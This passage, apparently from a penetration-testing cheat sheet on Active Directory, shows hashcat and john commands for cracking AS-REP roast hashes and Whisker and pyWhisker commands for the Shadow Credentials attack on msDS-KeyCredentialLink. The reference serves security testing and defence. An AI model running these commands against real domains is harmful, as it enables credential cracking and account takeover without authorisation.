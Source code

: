 Using `hashcat` or `john` to crack the ticket.

```powershell
# crack AS_REP messages with hashcat
root@kali:impacket-examples$ hashcat -m 18200 --force -a 0 hashes.asreproast passwords_kerb.txt 
root@windows:hashcat$ hashcat64.exe -m 18200 '<AS_REP-hash>' -a 0 c:\wordlists\rockyou.txt

# crack AS_REP messages with john
C:\Rubeus> john --format=krb5asrep --wordlist=passwords_kerb.txt hashes.asreproast
```

**Mitigations**: 
* All accounts must have "Kerberos Pre-Authentication" enabled (Enabled by Default).


### Shadow Credentials

> Add **Key Credentials** to the attribute `msDS-KeyCredentialLink` of the target user/computer object and then perform Kerberos authentication as that account using PKINIT to obtain a TGT for that user.

:warning: User objects can't edit their own `msDS-KeyCredentialLink` attribute while computer objects can. Computer objects can edit their own msDS-KeyCredentialLink attribute but can only add a KeyCredential if none already exists

**Requirements**:
* Domain Controller on (at least) Windows Server 2016
* PKINIT Kerberos authentication
* An account with the delegated rights to write to the `msDS-KeyCredentialLink` attribute of the target object

**Exploitation**: 
- From Windows, use [Whisker](https://github.com/eladshamir/Whisker):
  ```powershell
  # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
  Whisker.exe list /target:computername$
  # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
  Whisker.exe add /target:"TARGET_SAMNAME" /domain:"FQDN_DOMAIN" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
  Whisker.exe add /target:computername$ [/domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1]
  # Removes a key credential from the target object specified by a DeviceID GUID.
  Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b
  ```

- From Linux, use [pyWhisker](https://github.com/ShutdownRepo/pyWhisker):
  ```bash
  # Lists all the entries of the msDS-KeyCredentialLink attribute of the target object.
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "list"
  # Generates a public-private key pair and adds a new key credential to the target object as if the user enrolled to WHfB from a new device.
  pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p "CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "add" --filename "test1"
  # Removes a key credential from the target object specified by a DeviceID GUID.
  python3 pywhisker.py -d "domain.local" -u "user1" -p "complexpassword" --target "user2" --action "remove" --device-id "a8ce856e-9b58-61f9-8fd3-b079689eb46e"
  ```
